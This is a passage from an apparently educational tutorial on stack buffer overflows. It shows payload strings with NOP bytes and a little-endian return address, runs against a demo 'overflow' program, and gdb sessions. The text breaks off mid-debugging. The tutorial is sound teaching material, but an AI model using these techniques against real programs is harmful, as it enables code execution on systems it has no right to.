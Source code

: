 ```console
> ./overflow "123456781234567"
&buf 0x00007fffffffe508 rbp 0x0037363534333231 rip 0x00005555555551e7
We happily returned!
```
In a final step we want to overwrite the saved *instruction pointer* `%rip` with the start address of the buffer `buf` which currently has the value`0x7fffffffe508` as the output above shows . Please take into account that the memory address has to be encoded in little-endian format, i.e.  as the byte string `\x08\xe5\xff\xff\xff\x7f`. 

Additionally we replace the first 8 bytes of the string with `nop` machine instructions that are represented by the binary code `0x90`.
```console
> export STR=`echo -e -n "\x90\x90\x90\x90\x90\x90\x90\x9012345678\x08\xe5\xff\xff\xff\x7f"`
```
We used the `echo -e` command to generate the input string containing escape characters and store the byte string in the environment variable `$STR`. The `-n` option suppressed the terminating  newline character in the `echo`output.

Now we execute `overflow`with the content of the environment variable as input
```console
> ./overflow $STR
&buf 0x00007fffffffe4e8 rbp 0x3837363534333231 rip 0x00007fffffffe508
Segmentation fault
```
We notice that due to the new environment variable `$STR` and the increased `argv[1]` input argument  the local stack of the calling shell has grown downward by 32 bytes and correspondingly the start address of `buf` on the local stack of the `copy` function has shifted to `0x7fffffffe4e8`. Therefore we adapt the input string accordingly:
```console
> export STR=`echo -n -e "\x90\x90\x90\x90\x90\x90\x90\x9012345678\xe8\xe4\xff\xff\xff\x7f"`
```
Now the return address saved on the stack is overwritten with the start address of `buf` and a *Segmentation fault* occurs.
```console
> ./overflow $STR
&buf 0x00007fffffffe4e8 rbp 0x3837363534333231 rip 0x00007fffffffe4e8
Segmentation fault
```
In order to analyze what just happened we run `overflow`in the debugger
```assembly
> gdb -n overflow
(gdb) run $STR
Starting program: /home/hacker/overflow $STR
&buf 0x00007fffffffe4a8 rbp 0x3837363534333231 rip 0x00007fffffffe4e8
Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffe4e8 in ?? ()
```
We see that the *Segmentation fault* occurred at instruction address `0x7fffffffe4e8` so the jump to the stack seems to have been successful, but due to the debugger environment the start address of `buf` has shifted again to `0x7fffffffe4a8` so we have to adapt the return address in `$STR` accordingly
```console
export STR=`echo -e -n "\x90\x90\x90\x90\x90\x90\x90\x9012345678\xa8\xe4\xff\xff\xff\x7f"`
```
We start the debugger again and set a breakpoint at line `15`
```assembly
> gdb -n overflow
(gdb) break 15
Breakpoint 1 at 0x11b2: file overflow.c, line 15.
```
Then we run the program in the debugger up to line `15`
```assembly
(gdb) run $STR
Starting program: /home/hacker/overflow $STR
&buf 0x00007fffffffe4a8 rbp 0x3837363534333231 rip 0x00007fffffffe4a8

Breakpoint 1, copy (
```

[AS]: mailto:andreas.steffen@strongsec.net
[CC]: http://creativecommons.org/licenses/by/4.0/